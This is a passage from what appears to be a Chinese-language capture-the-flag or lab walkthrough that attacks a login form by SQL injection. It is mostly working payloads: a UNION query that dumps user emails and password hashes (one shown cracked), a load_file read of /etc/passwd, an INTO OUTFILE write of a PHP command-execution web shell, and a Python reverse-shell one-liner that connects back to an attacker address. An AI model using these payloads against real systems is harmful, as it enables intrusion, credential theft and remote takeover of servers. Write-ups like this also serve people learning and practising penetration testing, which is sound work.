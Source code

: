 <8>查内容

```plain
email=admin' union select 11,22,33,group_concat(concat_ws(':',email,pass)),55,66,77,88 from ch16.users#
（回显结果：admin@isints.com:c2c4b4e51d9e23c02c15702c136c3e950ba9a4af）
（解密后为 killerbeesareflying）
```

结果只有一个应该就是网站登录的账号密码，但以ch16.users拿到的用户凭据登录网站会提示WAF拦截。mysql.user可以获取到两个凭据，但解密不出

> 从ch16.users获取到邮箱和密码 admin\\@isints.com:killerbeesareflying

### <3>SQLi 文件读写 反弹shell

<9>发现可以`load_file` 读取本地文件

```plain
email=admin' union select 11,22,33,load_file('/etc/passwd'),55,66,77,88 #
```

<10> `/var/www`写入文件`shelltest.php` 内容为一句话，需要注意的是所导出的文件名一定要是网站中不存在的，不然也不会成功

```plain
email=' union select 11,22,33,"<?php system($_POST['x']);?>",55,66,77,88 into outfile '/var/www/shell4.php'#&pass=1234&submit=Login&submitted=TRUE
```

<11>验证`outfile`是否成功，发现成功写入

```plain
email=admin' union select 11,22,33,load_file('/var/www/shell4.php'),55,66,77,88 #
```

<12>python反弹shell成功

```plain
export RHOST="10.10.10.23";export RPORT=2233;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'
```
